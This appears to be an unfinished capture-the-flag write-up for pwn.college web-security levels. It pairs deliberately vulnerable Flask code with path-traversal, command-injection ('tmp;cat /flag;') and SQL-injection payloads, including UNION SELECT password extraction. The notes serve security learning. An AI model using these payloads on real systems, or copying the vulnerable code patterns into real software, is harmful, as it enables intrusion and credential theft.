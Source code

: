 # Level 1 - Path Traversal Vulnerability


```{md}
def level1(): 
    path = request.args.get("path") 
    assert path, "Missing `path` argument" 
    return (pathlib.Path(app.root_path) / path).read_text() 
```

```{sh}
> curl "http://challenge.localhost/?path=/flag"
pwn.college{wRT8kGDQ5IlFvynfnRpcP0mOZ7h.01N4MzMsMTOwEzW}
```

# Level 2 - Command Injection Vulnerability

```{md}
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
```

```{sh}
> requests.get('http://challenge.localhost:80/?timezone=tmp;cat /flag;').text
```

# Level 3 - Exploit Authentication row number

```{sh}

Way 1: usinf first if [NO]
> curl -X POST "http://challenge.localhost:80/?username=flag&password=*"
 
Way 2: using 2nd if
> curl "http://challenge.localhost:80/?user=1"
```

# Level 4 - Exploit SQL where clause

```{python}
import requests

url = "http://challenge.localhost:80"
data = {
        "username": '" or 1=1--',
        "password": "tmp"
}

response = requests.post(url, data = data)

print(response.text)
```

# Level 5 - Closing SQL clause with LIKE and UNION

- if `requests.arg.get()`, use `requests.post(url, params=data)`


```{python}
import requests

url = "http://challenge.localhost:80"
data = {
        "query": '"UNION SELECT password FROM users --"'
}

response = requests.post(url, params=data)

print(response.text)
```

# Level 6 - 

We don't know table name, so we have to get it first


Step 1:
```{sh}
import requests

url = "http://challenge.localhost:80"
data = {
        'query': '"UNION SELECT name from sqlite_master--'
}

res = requests.post(url, params=data)
print(res.text)
```

> table15220250475541310597

Step 2:

```{sh}
data = {
        'query': '"UNION SELECT password from table15220250475541310597--'
}
```

# Level 7 - Blind response

We can guess the username and password if the authentification is correct

```{sh}
def level7():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```


# Level 8 - 

```{sh}
def level8():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```

# Level 9 - 

```{sh}

```


